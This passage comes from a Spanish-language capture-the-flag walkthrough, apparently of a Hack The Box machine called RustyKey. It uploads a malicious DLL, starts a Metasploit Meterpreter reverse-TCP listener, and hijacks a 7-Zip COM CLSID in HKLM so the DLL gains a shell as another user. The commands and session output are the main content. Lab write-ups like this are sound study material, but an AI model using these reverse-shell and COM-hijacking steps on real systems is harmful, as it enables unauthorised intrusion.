 Info:

```
Info: Uploading /home/kali/Desktop/rustykey/bloodyAD/7zhack.dll to C:\Windows\Temp\7zhack.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
```

Ahora desde el usuario `ee.reed` vamos a desplazarnos a dicha carpeta y utilizar ese `payload` de esta forma:

Pero antes nos pondremos a la escucha con `metasploit` para obtener le `meterpreter`.

```shell
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT <PORT>
run
```

Info:

```
[*] Started reverse TCP handler on 10.10.14.79:7755
```

Ahora estando a la escucha vamos a ejecutar la tecnica de `COM Hijacking` con el `7zhack.dll` de nuestro `payload` para obtener la `shell`.

> NOTA: Estamos intentando hacerlo en un `HKLM` (Local Machine). Esto lo hacemos por que sabemos que el usuario `SUPPORT` tiene escritura privilegiada en el `HKLM`.

```powershell
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Windows\Temp\7zhack.dll" /f
```

Info:

```
The operation completed successfully.
```

Veremos que ha funcionado y si esperamos un rato veremos lo siguiente en nuestra escucha:

```
[*] Started reverse TCP handler on 10.10.14.79:7755 
[*] Sending stage (203846 bytes) to 10.10.11.75
[*] Meterpreter session 1 opened (10.10.14.79:7755 -> 10.10.11.75:60955) at 2025-10-15 12:57:58 -0700

meterpreter > getuid
Server username: RUSTYKEY\mm.turner
```

Vemos que hemos obtenido acceso con el usuario `mm.turner`.
